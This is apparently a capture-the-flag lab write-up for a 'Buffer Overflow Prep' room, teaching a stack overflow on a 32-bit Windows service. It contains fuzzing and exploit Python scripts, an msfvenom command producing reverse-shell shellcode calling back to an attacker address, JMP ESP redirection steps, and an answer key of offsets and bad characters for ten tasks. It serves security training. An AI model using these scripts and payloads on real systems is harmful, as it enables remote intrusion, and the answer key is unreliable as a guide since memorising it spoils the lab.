






# Buffer Overflow Prep

- MachineIP: `10.10.212.132`
- OS       : `Windows 32 Bit`
- Exploit  : `Stack BufferOverflow`

---

## Intro to X86

- Get a quick idea from [cs.virginia.edu](https://www.cs.virginia.edu/~evans/cs216/guides/x86.html)

- ESP = Extended Stack pointer points to the top of the stack
- EBP = Holds the memory address held by the ESP during the start of the program
- EIP = Executes the instruction in the current memory address it holds
- Stack grows backwards, if you `PUSH` an item to the stack, the address held by the ESP will be decremented by 4
- If you `POP` an item from the stack, the address held by the ESP will be incremented by 4
- `JMP` instruction, changes the value of EIP to the value mentioned in its operend
- `CALL` instruction loads the next memory address onto the stack before jumping to the called instruciton
- `LEAVE` instruction clears the stack space and the values loaded in them
- `RET` instruction takes the return address from the stack and returns to the place where it make a call jump before
- All the declared values in the source code is loaded on to the stack
- All the user input values will be loaded onto the stack

---
>Buffer overflow theory:
    Since the return address and the user provided inputs are loaded onto to the stack, we will send user input which will be placed on the stack and eventually will over write the loaded return address on the stack.
    When the return address has no valid memory value, the application crashes. We will overwrite the loaded return address to work for out advantage
---

<p align="centre">
    
</p>

- Lets get to the first step, opening the application in the debugger.
- Lets open the application in the `Immunity Debugger`
- Open the Immunity debugger and load the application
- Hit the "play" button on the toolbar or `F9` to run the application
- Now send a bunch of characters to crash the application
- Automated with python (modified a bit from the room's code)

```python
#!/usr/bin/env python3

# importing libraries
import socket, sys, time

# host and port information
host = "10.10.212.132"
port = 1337
timeout = 2 

# function
def attack():

    # OVERFLOW1 / OVERFLOWx
    prefix = sys.argv[1]
    # create a payload: OVERFLOW1 a*100
    payload = prefix + " " + "a"*100

    # infinite loop
    while True:
        # try section
        try:
            # open the socket connection as s
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
                # set the timeout value
                s.settimeout(timeout)
                # connect to the host and port
                s.connect((host, port))
                # obtain the welcom banner at the start
                s.recv(1024)
                # print the no. of characters being sent
                print(f"fuzzing with {len(payload) - len(prefix) - 1} bytes...")
                # enocde the payload in 'latin-1' format and sent it to the application
                s.send(bytes(payload, 'latin-1'))
                # obtain the complete message
                s.recv(1024)
        # except section (if the socket cannot be created, meaning no connection)
        except:
            # print application crashed info
            print(f"Application crashed at {len(payload) - len(prefix) -1 }")
            # exit the application
            sys.exit(0)
        
        # if no error is occured, append 100 a's to the value of payload
        payload += "a"*100
                
if __name__== "__main__":
    
    # check for length of passed arguments
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <Command>")
        sys.exit(1)
    
    # call the function
    attack()
```

- Now on running this script, the application will be crashed and the length around which the application crashes will be known for us

---

### Crash {#how}

> HOW DOES THE APPLICATION CRASH?
    The user provided input are placed on the stack, the call function loads the address on the stack on where it should return on completing the called fucntion. At the end of the call function, there will be two instructions `leave` (which clears the stack set up for that function) and `ret` which will make jump to the memory address on the top of the stack
    We will provide bunch of characters which will eventually overwrite the memory address which was loaded during the call instruction. When the leave instruction in the called fuction is executed, it clears the stack (which is filled with our input) and moves to the ret instruction, when the ret instruction is executed, it takes the memory address from the top of the stack(which we filled with number of characters) and makes the EIP to move there, since its not a valid address the application crashes
---

- Now to the next step calculating the offset of the application
- Offset = buffer size + filling ebp values and stopping just before overwriting EIP
- To calculate the offset value, a cyclic value needs to be passed to the application which will then crash the application and over write the EIP
- This can be done in two ways
  - With MSF
  - With PWNTools
- Generate a cyclic pattern of specified length

```bash
# with msf
# our application crashed at 2000 = generate cyclic pattern more than that
┌──(kali㉿kali)-[~/writeups/thm/Buffer Overflow Prep]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4[..snip..]

# with pwntools
┌──(kali㉿kali)-[~/writeups/thm/Buffer Overflow Prep]
└─$ pwn cyclic 2400
aaaabaaacaaadaaaeaaaf[..snip..]
```

- Lets add these the generated cyclic pattern to the python script and send them to the appliaction
- The payload we will be sending is `the command prefix` + `characters to overflow (fill the buffer)` + `return address (where we can change the control flow)` + `padding (for stability of the shellcode)` + `payload (shellcode)`

```python
#!/usr/bin/env python3
import socket,sys

host = "127.0.0.1"
port = 1337

def attack():
    cmd = sys.argv[1]
    offset = 0
    overflow = "a"*offset
    retn = ""
    padding = ""

    # pwn cyclic 2400
    payload = ("""aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaaisaaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaajiaajjaajkaajlaajmaajnaajoaajpaajqaajraajsaajtaajuaajvaajwaajxaajyaajzaakbaakcaakdaakeaakfaakgaakhaakiaakjaakkaaklaakmaaknaakoaakpaakqaakraaksaaktaakuaakvaakwaakxaakyaakzaalbaalcaaldaaleaalfaalgaalhaaliaaljaalkaallaalmaalnaaloaalpaalqaalraalsaaltaaluaalvaalwaalxaalyaalzaambaamcaamdaameaamfaamgaamhaamiaamjaamkaamlaammaamnaamoaampaamqaamraamsaamtaamuaamvaamwaamxaamyaamzaanbaancaandaaneaanfaangaanhaaniaanjaankaanlaanmaannaanoaanpaanqaanraansaantaanuaanvaanwaanxaanyaanzaaobaaocaaodaaoeaaofaaogaaohaaoiaaojaaokaaolaaomaaonaaooaaopaaoqaaoraaosaaotaaouaaovaaowaaoxaaoyaaozaapbaapcaapdaapeaapfaapgaaphaapiaapjaapkaaplaapmaapnaapoaappaapqaapraapsaaptaapuaapvaapwaapxaapyaapzaaqbaaqcaaqdaaqeaaqfaaqgaaqhaaqiaaqjaaqkaaqlaaqmaaqnaaqoaaqpaaqqaaqraaqsaaqtaaquaaqvaaqwaaqxaaqyaaqzaarbaarcaardaareaarfaargaarhaariaarjaarkaarlaarmaarnaaroaarpaarqaarraarsaartaaruaarvaarwaarxaaryaarzaasbaascaasdaaseaasfaasgaashaasiaasjaaskaaslaasmaasnaasoaaspaasqaasraassaastaasuaasvaaswaasxaasyaaszaatbaatcaatdaateaatfaatgaathaatiaatjaatkaatlaatmaatnaatoaatpaatqaatraatsaattaatuaatvaatwaatxaatyaatzaaubaaucaaudaaueaaufaaugaauhaauiaaujaaukaaulaaumaaunaauoaaupaauqaauraausaautaauuaauvaauwaauxaauyaauzaavbaavcaavdaaveaavfaavgaavhaaviaavjaavkaavlaavmaavnaavoaavpaavqaavraavsaavtaavuaavvaavwaavxaavyaavzaawbaawcaawdaaweaawfaawgaawhaawiaawjaawkaawlaawmaawnaawoaawpaawqaawraawsaawtaawuaawvaawwaawxaawyaawzaaxbaaxcaaxdaaxeaaxfaaxgaaxhaaxiaaxjaaxkaaxlaaxmaaxnaaxoaaxpaaxqaaxraaxsaaxtaaxuaaxvaaxwaaxxaaxyaax""")

    s_buffer = cmd + " " + overflow + retn + padding + payload

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    try:
        s.connect((host, port))
        s.recv(1024)
        print("Sendin buffer to crash the program...")
        s.send(bytes(s_buffer + "\r\n", 'latin-1'))
        print("D0N3 !")
    except:
        print("Could Not connect !")
    
if __name__ == "__main__":

    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <command>")
        sys.exit(1)
    
    attack()
```

- Now as mentioned [above](#how) , the application crashed and the EIP value is updataed
- Lets take the updated EIP value and find the offset (the characters size value before this cyclic pattern)

```bash
# with msf
┌──(kali㉿kali)-[~/writeups/thm/Buffer Overflow Prep]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 43356E43
[*] Exact match at offset 1965

# with pwn
┌──(kali㉿kali)-[~/writeups/thm/Buffer Overflow Prep]
└─$ pwn cyclic -l 0x61757461
1978
```

- Lets update the offset value in the template with the obtained offset value
- After updating the value of the offset from 0 ti 1978 lets set the `retn` to `bbbb`
- Now the stack and the following base pointer in the stack will be filled with A's and the EIP will be overwritten with the value of 4B's (62626262)

<p align="centre">
    
</p>

- Now the stack is overflown and the EIP is overwritten, now its the time to check for bad characters
- These bad characters should be identified and remoted from the shellcode we are going to generate, these characters might break the malicious payload and crash the application
- To identify the bad characters, we use [mona.py](https://raw.githubusercontent.com/corelan/mona/master/mona.py)
- Place the mona.py in the directory where Immunity Debugger is installed, in my case, I am using in wine

```bash
# placing mona.py in the PyCommands folder
┌──(kali㉿kali)-[~/writeups/thm/Buffer Overflow Prep]
└─$ cp mona.py ~/.wine/drive_c/Program\ Files\ \(x86\)/Immunity\ Inc/Immunity\ Debugger/PyCommands/

```

- Generating bytearray which will be compared with the passed hexadecimal characters from 0x00 - 0xff

<p align="centre">
    
</p>

- Here the bytes from 0x01 to 0xff are generated neglecting 0x00
- 0x00 is the `universal badchar`
- Bad Characters are not defined / universal, every application can have different bad character (except for 0x00)
- Generate hexademical characters from 0x00 to 0xff with python

```python
#!/usr/bin/env python3

for i in range(1, 256):
    print("\\x" + "{:02x}".format(i), end="")
    
print()
```

- Now set the generated hex data in the payloads section and send it

<p align="centre">
    
</p>

- Now the bad characters have been identified, If a character is a bad character it will affect the following next character too, so lets remove the character `0x07` from the payload and send it, also generate a new byte array now marking `0x07` as bad character too
- Lets remove all the first characters and send the payload
- Now after removing the first characters `(i.e., 0x07,0x2e, 0xa0)` all the other characters are available

<p align="centre">
    
</p>

- For some reason, it doesnt work on my mona doesnt work on wine so joined on the machine
- After removing the badchras lets generate a shell code with msfvenom with removing these code from the generated shell

```bash
# generating shellcode with msfvenom
┌──(kali㉿kali)-[~/writeups/thm/Buffer Overflow Prep]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.14.10.227 LPORT=1234 EXITFUNC=thread -b"\x00\x07\xa0\x2e" -f c
```

- Now after upadting the payload with the generated shellcod
- Now we run the script and sometimes there will be stack protection where executing payload from the stack
- So to overcome this issue we will be calling the stack from within the program which will become a legitimate instruction bypassing the security implementaion
- Search for the jump ESP instruction from the program with mona

<p align="centre">
    
</p>

- Now update the retn value in the exploit from "bbbb" to the address values obtained in the little-endian format 
- In little endian format, `625011AF` will be loaded as `\xaf\x11\x50\x62`
- Now open up a netcat session and run the exploit to obtain the reverse shell
- Machine will be owned

### Answers

#### Overflow1

- What is the EIP offset for OVERFLOW1?
`1978`

- In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW1?
`\x00\x07\x2e\xa0`

#### Overflow2

- What is the EIP offset for OVERFLOW2?
`634`

- In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW2?
`\x00\x23\x3c\x83\xba`

#### Overflow3

- What is the EIP offset for OVERFLOW3?
`1274`

- In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW3?
`\x00\x11\x40\x5f\xb8\xee`

#### Overflow4

- What is the EIP offset for OVERFLOW4?
`2026`

- In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW4?
`\x00\xa9\xcd\xd4`

#### Overflow5

- What is the EIP offset for OVERFLOW5?
`314`

- In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW5?
`\x00\x16\x2f\xf4\xfd`

#### Overflow6

- What is the EIP offset for OVERFLOW6?
`1034`

- In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW6?
`\x00\x08\x2c\xad`

#### Overflow7

- What is the EIP offset for OVERFLOW7?
`1306`

- In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW7?
`\x00\x8c\xae\xbe\xfb`

#### Overflow8

- What is the EIP offset for OVERFLOW8?
`1786`

- In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW8?
`\x00\x1d\x2e\xc7\xee`

#### Overflow9

- What is the EIP offset for OVERFLOW9?
`1514`

- In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW9?
`\x00\x04\x3e\x3f\xe1`

#### Overflow10

- What is the EIP offset for OVERFLOW10?
`537`

- In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW10?
`\x00\xa0\xad\xbe\xde\xef`